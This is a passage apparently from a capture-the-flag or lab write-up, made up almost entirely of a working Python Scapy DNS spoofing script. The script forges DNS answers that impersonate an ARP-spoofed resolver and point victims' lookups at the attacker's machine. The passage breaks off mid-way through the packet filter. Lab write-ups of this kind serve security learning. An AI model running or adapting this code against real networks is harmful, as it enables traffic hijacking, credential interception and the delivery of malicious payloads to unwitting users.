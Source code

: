 ```python
if __name__ == "__main__":
    main()
```

* modify the existing dns-spoofing-script

```python
#!/usr/bin/python3
from scapy.all import *
import netifaces as ni
import uuid

# Our eth0 IP
ipaddr = ni.ifaddresses('eth0')[ni.AF_INET][0]['addr']
# Our Mac Addr
macaddr = ':'.join(['{:02x}'.format((uuid.getnode() >> i) & 0xff) for i in range(0,8*6,8)][::-1])

ipaddr_we_arp_spoofed = "10.6.6.53"

def handle_dns_request(packet):    
    eth = Ether(src=macaddr, dst=packet[Ether].src)                 
    ip  = IP(dst=packet[Ether][IP].src, src=ipaddr_we_arp_spoofed)    
    udp = UDP(dport=packet.sport, sport=53)                         
    dns = DNS(
        id        = packet[DNS].id,        
        qr        = 1,
        opcode    = packet[DNS].opcode,
        aa        = packet[DNS].aa,
        tc        = packet[DNS].tc,
        rd        = packet[DNS].rd,
        ra        = 1,
        z         = packet[DNS].z,
        ad        = packet[DNS].ad,
        cd        = packet[DNS].cd,
        rcode     = packet[DNS].rcode,
        qdcount   = packet[DNS].qdcount,
        ancount   = 1,
        nscount   = packet[DNS].nscount,
        arcount   = packet[DNS].arcount,
        qd        = DNSQR(
            qname = packet[DNS].qd.qname, 
            qtype = packet[DNS].qd.qtype, 
            qclass = packet[DNS].qd.qclass
        ),

        an        = DNSRR(
            rrname=packet[DNS].qd.qname,
            type=1,
            rclass=0x1,
            ttl=82159,
            rdlen=None,            
            rdata=ipaddr
        ),
        ns        = packet[DNS].ns,
        ar        = packet[DNS].ar
    )
    dns_response = eth / ip / udp / dns
    sendp(dns_response, iface="eth0")

def main():
    berkeley_packet_filter = " and ".join( [
        "udp dst port 53",                              # dns
        "udp[10] & 0x80 = 0",                           # dns request
```